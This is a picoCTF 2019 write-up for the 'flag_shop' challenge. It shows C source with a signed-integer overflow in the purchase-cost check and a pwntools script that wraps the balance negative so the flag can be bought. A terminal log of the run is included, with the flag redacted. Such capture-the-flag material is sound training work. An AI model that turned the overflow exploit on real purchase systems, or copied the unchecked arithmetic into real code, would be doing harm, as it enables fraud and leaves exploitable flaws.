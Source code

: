 # flag_shop

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2019, General Skills
Author: DANNY

Description:
There's a flag shop selling stuff, can you buy a flag? Source. 

Connect with nc jupiter.challenges.picoctf.org 4906.

Hints:
1. Two's compliment can do some weird things when numbers get really big!
```

## Solution

### Analyse the setup

Lets start by checking the c source code
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Here we should note that the `account_balance` variable is a signed integer rather than an unsigned one. (`int account_balance = 1100;`)  
This means it stores both positive and negative numbers in [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) format.  

We can exploit this fact by wrapping around the value by doing an expensive purchase.  
The value needs to be larger than `2**31 - 1` for a 32-bit integer.

Each `Defintely not the flag` flag costs `900` and the `1337 Flag` costs 100000. Our start balance is 1100.  
So if we buy `(2**31 - 1 - 1100 + 100000) // 900` flags we ought to wrap around.

### Write a python script

We can use [pwntools](https://docs.pwntools.com/en/stable/index.html) to automate this with a Python script
```python
#!/usr/bin/python

from pwn import *

SERVER = 'jupiter.challenges.picoctf.org'
PORT = 4906

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

io = remote(SERVER, PORT)
# Buy a lot of 'Defintely not the flag' Flags
amount = (2**31 - 1 - 1100 + 100000) // 900
log.info(f"Buying {amount} Defintely not the flag Flags")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"1")
io.sendlineafter(b"These knockoff Flags cost 900 each, enter desired quantity\n", str(amount).encode('ascii'))

# Buy the 1337 flag
log.info(f"Buying 1 1337 Flag")
io.sendlineafter(b" Enter a menu selection\n", b"2")
io.sendlineafter(b"2. 1337 Flag\n", b"2")
io.sendlineafter(b"Enter 1 to buy one", b"1")

# Get the flag
flag = io.recvlineS().strip()
print(flag)
io.close()
```

### Get the flag

Then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2019/General_Skills/Flag_shop]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to jupiter.challenges.picoctf.org on port 4906: Done
[*] Buying 2386202 Defintely not the flag Flags
[*] Buying 1 1337 Flag
YOUR FLAG IS: picoCTF{<REDACTED>}
[*] Closed connection to jupiter.challenges.picoctf.org port 4906
```

For additional information, please see the references below.

## References

- [Wikipedia - Two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)
- [pwntools](https://docs.pwntools.com/en/stable/index.html)

